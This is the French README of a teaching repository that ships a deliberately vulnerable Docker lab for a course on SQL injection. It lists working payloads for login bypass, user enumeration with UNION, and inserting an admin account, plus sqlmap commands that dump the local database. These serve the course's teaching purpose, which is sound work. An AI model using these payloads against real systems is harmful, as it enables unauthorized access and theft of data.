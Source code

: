 ```
  ____   ___  _       ___        _           _   _             
 / ___| / _ \| |     |_ _|_ __  (_) ___  ___| |_(_) ___  _ __  
 \___ \| | | | |      | || '_ \ | |/ _ \/ __| __| |/ _ \| '_ \ 
  ___) | |_| | |___   | || | | || |  __/ (__| |_| | (_) | | | |
 |____/ \__\_\_____| |___|_| |_|/ |\___|\___|\__|_|\___/|_| |_|
                              |__/                             
```

![](readme_docs/287167c6.png)

Container Docker pour suivre le cours sur les Injections SQL

# Prérequis

* Docker
* Docker-compose
* Ports 8000, 8032, 8081 disponibles

# Lancement

Cloner le dépôt sur votre WSL

```bash
git clone git@github.com:LiliwoL/B3-Docker-Injection-SQL-Demonstration.git
```

Lancer le container

```bash
cd B3-Docker-Injection-SQL-Demonstration
bin/start
```

Accéder à la page web à l'adresse suivante:

http://127.0.0.8:8000


---

# Injections SQL possibles

## Authentification sans mot de passe

`' or 1=1 -- `

> Ne pas oublier l'espace à la fin
> https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens

## Enumération des utilisateurs

`' or 1=1 UNION SELECT * FROM users -- `

## Insertion d'un utilisateur dans la table users

`admin'; INSERT INTO users (password, username, id, email, admin) VALUES ('root', 'root', 7, 'hacker@fenelon.com', "true");`

# SQLMap

sqlmap -u http://127.0.0.1:8000 --forms --dbs

![](readme_docs/86043759.png)

sqlmap -u http://127.0.0.1:8000 --forms --tables -D db_name

![](readme_docs/8f6b0a65.png)

sqlmap -u http://127.0.0.1:8000 --forms --dump -D db_name -T table_name

![](readme_docs/3137fd85.png)

# Lancement

Clonez le dépôt

```bash
git clone 
```

Lancez le container

```bash
bin/start
```

Accédez au shell du container MySQL

```bash
bin/shell
```

![](readme_docs/d0107619.png)

Lancement du client mysql (saisissez le mot de passe **root**)

```bash
root@94416fbdf8e8:/# mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7
Server version: 10.7.3-MariaDB-1:10.7.3+maria~focal mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

